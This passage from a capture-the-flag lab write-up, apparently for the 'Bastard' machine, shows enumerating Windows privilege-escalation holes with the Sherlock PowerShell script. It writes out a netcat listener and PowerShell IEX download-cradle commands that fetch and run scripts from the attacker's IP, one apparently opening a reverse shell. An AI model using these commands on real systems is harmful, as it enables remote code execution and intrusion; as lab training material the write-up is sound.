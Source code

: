 To speed up a bit the search for vulnerabilities in the system I'm going to turn to **[rasta-mouse's Github project](https://github.com/rasta-mouse/Sherlock){:target="_blank"}**, **Sherlock**, which is a **PowerShell** script that focuses on missing patches. To prevent the script from having problems in its execution I am going to migrate to a PowerShell shell first, then I am going to download the script on my attacking machine and customize it so that once I transfer it to the victim machine the module in charge of looking for all the vulnerabilities is executed. Once the script is interpreted it starts displaying a series of Vulnerabilities and also informs me if the machine is vulnerable or not.

> **Sherlock** - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

> **Attacker Machine**:

```bash
python3 -m http.server 80
sudo rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.238/PS.ps1')
```

> **Attacker Machine**:

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/refs/heads/master/Sherlock.ps1

cat Sherlock.ps1 | grep function
# function Find-AllVulns {

nvim Sherlock.ps1
cat Sherlock.ps1 | tail -n 2
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.238/Sherlock.ps1')
# MSBulletin : MS10-092
# MSBulletin : MS15-051
# MSBulletin : MS16-032
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
